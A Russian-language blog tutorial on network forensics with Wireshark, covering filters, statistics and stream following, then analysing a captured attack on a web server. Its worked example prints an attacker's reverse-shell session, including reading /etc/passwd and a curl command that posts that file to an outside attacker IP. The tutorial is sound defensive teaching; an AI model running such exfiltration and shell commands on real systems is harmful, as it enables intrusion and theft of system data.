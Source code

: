 ```yaml
---
title: "Инструкция по тому, как попасть в сети"
description: ""
date: 2024-03-04
summary: "А что, если обратной дороги нет?"

series: ["Погружение в forensics"]
series_order: 1

tags: ["forensics"]
showAuthor: true
authors:
  - "exc3pti0n"
---
```


Что делать со скомпрометированными системами мы разобрались. Но что, если данных на диске недостаточно для криминалистического расследования? 
Например,  мы замечаем резкую нагрузку на сеть или обнаруживаем перенаправление на какие-то левые IP-адреса. Чтобы разобраться в подозрительных вещах, мы обращаемся к анализу сетевой активности, и в этом нам помогают так называемые "снифферы" - эти инструменты устанавливают наш сетевой адаптер в определенный режим, который позволяет принимать все пакеты в эфире, вне зависимости от того, предназначаются ли они для нашего устройства или нет. 

Терпеливо выслушав жалобы заказчика, форензик собирает трафик, получает файлик с дампом и идет смотреть, что же там произошло.

## Что нужно знать, чтобы не грепать по "CTF{"

Для анализа форензик имеет у себя в арсенале хотя бы один инструмент для анализа дамов трафика. Пожалуй, самым популярным сниффером, с которым можно столкнуться, является [Wireshark](https://www.wireshark.org/download.html). Для того, чтобы начать работать с этим инструментом, малыш должен знать некоторые вещи, которые будут полезны при анализе трафика.

### Буйство красок: какой цвет к чему?

Для удобства в Wireshark предусмотрено цветное представление пакетов и протоколов.

![](one.png)

*Дефолтное представление цветов можно посмотреть в разделе* `View` -> `Coloring Rules..`.

1. **Красным цветом** помечаются пакеты с ошибками в передаче данных. Например, в контексте сетевых атак они могут быть интересны как подозрение на DDoS, так что к ним стоит присмотреться.
2. **Черным цветом** помечаются пакеты, которые повреждены на этапе захвата или захвачены не полностью.
3. **Темно-зеленым цветом** помечаются пакеты, которые вызывают предупреждения или ошибки, но не являются критическими.
4. **Зеленым цветом** помечаются пакеты с данными или запросами, которые успешно переданы и обработаны. Обычно в них и лежит все самое интересное.

### Фильтрация или Что полезно для базового анализа

Чтобы ускорить скрупулезный анализ PCAP, форензику приходится прибегать к использованию фильтров. Здесь будут перечислены те, с которыми малыш будет сталкиваться чаще всего:

- `http.request` - отображение HTTP-запросов: полезно в контексте понимания того, какой хост за чем обращался к другому - загрузка файлов, страниц или внедрение вредоносных запросов.
- `ip.src eq <IP-address>` и `ip.dst eq <IP-address>` - если нам интересно посмотреть на активность с конретного подозрительного IP - какие запросы отправлялись и принимались данным хостом.
- `tcp.port eq <port>` - если надо просмотреть, какие пакеты отсылались на интересующий порт.
- `http` и `!arp` - разумеется, фильтрация по интересующим протоколам.

Также в инструменте присутствует некий синтаксис, а-ля логические операции, которые позволяют эффективно применять фильтры. Малыш может использовать `and` или `or` для объединения условий, применять `==` или `!=` для равенства условию или использовать `<=` и `>=` для проверки длины пакетов `frame.len`, если ему это понадобится. 

### Функционал, который нам очень пригодится

Когда форензик получает на руки интересный PCAP, он осматривается - какие пакеты летали по сети, каких больше всего, что может быть интересного. Для этого он заглядывает в `Statistics` -> `Protocol Hierarchy` и смотрит на статистику:

![](two.png)

Также полезно узнать, с каких хостов отправлялись пакеты, и кого мы поймали во время сбора трафика. Для этого следует перейти на вкладку `Statistics` -> `Endpoint`.

![](three.png)

Осмотревшись, форензик ищет интересные запросы и смотрит внутрь пакета: есть ли там что-то, за что можно зацепиться глазу? 

![](four.png)

Если нашел любопытную информацию, надо посмотреть на поток пакетов - для этого следует нажать ПКМ на интересующий пакет, и выбрать нужный поток: `Follow` -> `HTTP Stream`. В процессе наблюдения можно обнаружить такую картину:

![](five.png)

Конечно, хочется копнуть поглубже, и достать что-то более весомое, например, подозрительные файлы. Тогда надо заглянуть  в `File` -> `Export Objects` и выбрать нужный протокол, например, `HTTP..`.

![](six.png)

Это базовые вещи, которые могу пригодиться малышу для анализа трафика.

## Не словом, а делом: смотрим на фрагмент атаки и думаем, что произошло

*Команда разработчиков жалуется, что на веб-сервере оказался какой-то файл, которого раньше не было, да еще и шумит в сети... Надо разобраться.*

Для начала просмотрим иерархию протоколов:

![](seven_one.png)

Кажется, нам следует обратить внимание на HTTP. Просмотрим,  каких хостов отправлялись пакеты:

![](seven.png)

Как оказывается, мы наблюдаем взаимодействие только двух хостов. 
Проанализируем кусочек трафика и придем к выводу, что запросы на веб-сервер прилетают с IP-адреса `117.11.88.124`.

![](eight.png)

В данной ситуации, файл мог быть отправлен с этого IP-адреса. Предположим это, и отфильтруем данные следующим образом: `http and ip.src== 117.11.88.124`

![](nine.png)

Первое, что нас может смутить - POST-запрос на страницу upload.php на веб-сервер, можно предположить, что это запрос на загрузку файла. Заглянем в поток, чтобы посмотреть содержимое пакета.

![](ten.png)

И по итогу наблюдаем создание обратной оболочки на хост `117.11.88.124:8080`.
После того, как мы узнали, что `image.jpg.php` является вредоносным файлом, следует посмотреть, какая активность была зафиксирована после запуска этого файла. Для этого находим подходящий запрос: 

![](eleven.png)

И анализируем поток, который следует после этого запуска:

```
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<DELETED>
...
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 368 100 357 100 11 56774 17[393 bytes missing in capture file].$
```

Наблюдаем удаленное выполнение команд и попытку стащить файл `passwd`.

## Куда стоит полезть еще?

- [Wireshark — подробное руководство по началу использования](https://habr.com/ru/articles/735866/) - полезная статья для тех, кто хочет прощупать инструмент.
- [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/index.html) - мастхев для тех, кому всегда мало: здесь лежат небольшие отчеты по анализу, туториал от автора ресурса, а также куча дампов, собранных с вредоносной активности реальной малвари.
- [Cyberdefenders.org](https://cyberdefenders.org/) - здесь, помимо прочих блутим-кейсов, лежит и категория Network Forensic, из которой можно выудить интересные PCAP для анализа и практики - идеально для малышей. Задачки с интересными атаками, которые я советую порешать: [PoisonedCredentials](https://cyberdefenders.org/blueteam-ctf-challenges/poisonedcredentials/), [OpenWire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire/), [PsExec Hunt](https://cyberdefenders.org/blueteam-ctf-challenges/psexec-hunt/) (кстати, на первые два я писала подробные райтапы с объяснением атак, можно посмотреть [здесь](https://habr.com/ru/articles/775414/) и [здесь](https://habr.com/ru/articles/784908/))

На этом все. И не забывай, что всегда надо лезть туда, куда не просят)

![](lastpic.png)
